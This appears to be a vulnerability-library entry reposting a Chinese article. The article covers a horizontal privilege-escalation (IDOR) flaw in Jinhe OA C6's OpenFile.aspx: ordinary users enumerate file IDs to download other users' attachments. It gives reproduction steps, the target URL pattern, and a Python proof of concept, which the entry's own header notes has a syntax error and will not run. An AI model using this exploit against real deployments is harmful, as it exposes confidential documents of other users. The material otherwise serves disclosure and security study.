# 金和C6 OpenFile id附件水平越权

## 条目说明

- 对象与具体问题：金和C6；OpenFile id附件水平越权
- 版本、配置及部署条件：C6无build
- 认证与权限前提：普通用户登录且越过文件授权
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- Python URL字符串缺结束引号及name/type片段，不能运行
- file path取末3字符扩展名不通用；Cookie正则强依赖尾分号
- 仅发现文件不证明越权，需两账号ACL对照；枚举元数据同样涉及敏感信息

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/90HM3LqODBN35iqRBRE1HA)


**一****：漏洞描述🐑**

**金和 OA C6 存在后台越权敏感文件遍历漏洞，普通用户通过遍历特殊参数可以获取其他用户上传的敏感文件**

**二:  漏洞影响🐇**

**金和 OA C6**

**三:  漏洞复现🐋**

**登录后点击信息交流，发起协同页面**



**上传附件并上传发送给目标**

**这里登录权限为管理员，我们自己发给自己就好，前文只是展现漏洞挖掘思路过程**



**成功收到上传的附件**  



**点击查看时抓包，发现一个带有文件 ID 的请求包**  



**返回了几个参数**

```
var strFilePath = '../Resource/slaves/1/8b473ecb-7b39-4384-ada2-b0ec72c4f6ed.png';
var strFileType = 'png';
var strSid='3jvpvhs410m2wdbbficax5q5';
var strFileIDCode='us9w7xWE7do=';
var strId = '1229';
var strTxtReg = 'txt,ini,xml,config,htm,html,js,css,asp,aspx,jsp,cs,sql,inf,htc,log';
var strImgReg = 'jpg,gif,jpeg,png,ico';
var MD = '';
```

**其中我们注意到 strFilePath 为文件的存储地址，我们更改 id 参数为另一个值，且测试后发现 name 文件名参数无关紧要**



**更改 ID 后发送请求包发现获得另一个文件的信息**

**访问 Url，注意 **type 参数** 需要为正确的文件后缀才可以访问**

```
http://xxx.xxx.xxx.xxx/C6/control/OpenFile.aspx?id=1200&name=&type=pdf
```



**这里更换一个普通用户测试是否可行，尝试遍历 id**





**存在 **strFilePath 参数** 则是存在文件，为空则是文件已经不存在**

**同时抓包下载文件页面也可以看到可获取的参数** ****FileID 与 FileIDCode****



**于是只需要通过刚刚的 ID 遍历，获取两个关键参数就能下载其他人发送的敏感文件，且只需要普通用户权限**

 ****四:  漏洞 POC🦉****

```
POC只检测是否存在漏洞，且漏洞存在于后台需要登录
运行后访问链接即可下载文件
```

```
import requests
import sys
import random
import re
import base64
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 金和OA C6                                                  \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, file_id, cookie):
    vuln_url = target_url + "/C6/control/OpenFile.aspx?id={}&.format(file_id)
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded",
        "Cookie":cookie
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[36m[o] 正在请求 Url: {}\033[0m".format(vuln_url))
        if "strFilePath =" in response.text and response.status_code == 200:
            strFilePath = re.findall(r"var strFilePath = '(.*?)';", response.text)[0]
            strFileType = strFilePath[-3:]
            strFileIDCode = re.findall(r"var strFileIDCode='(.*?)';", response.text)[0]
            strId = re.findall(r"var strId = '(.*?)';", response.text)[0]
            sid = re.findall(r'ASP.NET_SessionId=(.*?);', cookie)[0]
            if strFilePath != "":
                print("\033[36m[o] 目标 {} 存在漏洞, 获取文件信息:\n[o] 文件路径：{}\n[o] 文件类型：{}\n[o] 文件ID code：{}\n[o] 文件编号：{}\033[0m".format(target_url, strFilePath, strFileType,strFileIDCode, strId ))
                print("\033[32m[o] 文件下载链接为: {}/C6/JHSoft.Web.CustomQuery/uploadFileDownLoad.aspx?Decrypt=&FileID={}&FileIDCode={}&sid={}".format(target_url, strId, strFileIDCode, sid))
            else:
                print("\033[31m[x] 目标 {} 文件不存在     \033[0m".format(target_url))
        else:
            print("\033[31m[x] 目标 {} 不存在漏洞     \033[0m".format(target_url))

    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    file_id = str(input("\033[35mFile_id >>> \033[0m"))
    cookie = str(input("\033[35mCookie  >>> \033[0m"))
    POC_1(target_url, file_id, cookie)
```



 ****五:  关于文库🦉****

**在线文库：**

**http://wiki.peiqi.tech**

**Github：**

**https://github.com/PeiQi0/PeiQi-WIKI-POC**

最后
--

> 下面就是文库和团队的公众号啦，更新的文章都会在第一时间推送在交流群和公众号，想要投稿的师傅也可以加我投稿
> 
> 想要加入交流群的师傅公众号点击交流群加我拉你啦~
> 
> 别忘了 Github 下载完给个小星星⭐

公众号

**同时知识星球也开放运营啦，希望师傅们支持支持啦🐟**

**知识星球里会持续发布一些漏洞公开信息和技术文章~**


  



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
